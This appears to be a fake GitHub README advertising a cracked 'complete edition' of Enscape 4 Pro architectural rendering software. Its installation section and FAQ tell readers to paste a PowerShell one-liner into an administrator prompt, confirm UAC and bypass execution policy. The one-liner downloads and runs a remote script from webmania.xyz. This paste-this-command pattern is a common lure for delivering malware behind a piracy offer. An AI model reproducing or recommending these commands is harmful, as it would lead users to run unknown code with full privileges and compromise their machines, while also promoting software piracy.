

<div align="center">


<br>


# Enscape 4 Pro Architectural Visualization Complete Edition
**Real-time render · VR walkthrough · Revit plugin**
<br>
**Real-time render · VR walkthrough · Revit plugin**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**Enscape 4 Pro — real-time rendering, VR walkthroughs, Revit and SketchUp integration and asset libraries all enabled.**

</div>
---

> Present designs instantly from your BIM model — live rendering, VR tours and material libraries all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://webmania.xyz/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎨 **3D production** — Modeling, rendering and animation tools enabled.
📦 **Local creative suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for artist workstations.
📋 **Complete toolkit** — Assets and presets supported.
⚙️ **Pro workflow** — Suitable for studio pipelines.
✨ **Premium modules** — Paid creative features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 8 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://webmania.xyz/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 8 gb free space.
</details>


TAGS
enscape-4-pro-architectural-visualization, enscape, enscape-architectural, enscape-architectural-visualization, enscape-visualization, enscape-pro, enscape-4, windows, pro, desktop, software, studio, tools
